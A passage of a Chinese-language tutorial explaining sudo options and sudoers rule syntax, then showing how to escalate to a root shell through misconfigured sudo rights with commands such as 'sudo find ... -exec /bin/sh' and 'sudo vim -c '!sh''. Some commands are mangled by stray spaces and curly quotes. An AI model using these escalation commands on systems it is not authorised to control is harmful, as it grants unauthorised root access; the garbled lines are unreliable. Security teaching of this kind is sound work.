 *   -u username/#uid 不加此参数，代表要以 root 的身份执行指令，而加了此参数，可以以 username 的身份执行指令（#uid 为该 username 的使用者号码）
    
*   -s 执行环境变数中的 SHELL 所指定的 shell ，或是 /etc/passwd 里所指定的 shell
    
*   -H 将环境变数中的 HOME （家目录）指定为要变更身份的使用者家目录（如不加 -u 参数就是系统管理者 root ）
    
*   command 要以系统管理者身份（或以 -u 更改为其他人）执行的指令
    

### Sudoer 文件

#### sudoers 文件主要有三部分组成：

*   sudoers 的默认配置（default），主要设置 sudo 的一些缺省值
    
*   alias（别名），主要有 Host_Alias|Runas_Alias|User_Alias|Cmnd_Alias。
    
*   安全策略（规则定义）——**重点**。
    

语法

root ALL=(ALL) ALL

说明 1：root 用户可以从  ALL 终端作为  ALL（任意）用户执行，并运行  ALL（任意）命令。

第一部分是用户，第二部分是用户可以在其中使用 sudo 命令的终端，第三部分是他可以充当的用户，最后一部分是他在使用时可以运行的命令。sudo

touhid ALL= /sbin/poweroff

说明 2：以上命令，使用户可以从任何终端使用 **touhid**** 的用户密码 ** 关闭命令电源。

touhid ALL = (root) NOPASSWD: /usr/bin/find

说明 3：上面的命令，使用户可以从任何终端运行，以 **root** 用户身份运行命令 find **而无需密码**。

### 利用 SUDO 用户

要利用 sudo 用户，您需要找到您必须允许的命令。  
sudo -l

上面的命令显示了允许当前用户使用的命令。

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR387mudMPZa7LwZDCFf1xQmib8uk9uTj4IP1U0bJnApeoAiasWJkn3iaMOYLAVrSoR5V15Xr3SYv77dKA/640?wx_fmt=jpeg)

此处 sudo -l，显示用户已允许以 root 用户身份执行所有此二进制文件而无需密码。

让我们一一查看所有二进制文件（仅在索引中提到）和将**特权**提升给 **root** 用户。

### **使用查找命令**

sudo find / etc / passwd -exec / bin / sh \;

要么

sudo find / bin -name nano -exec / bin / sh \;

### **使用** Vim **命令**

sudo vim -c’！sh’

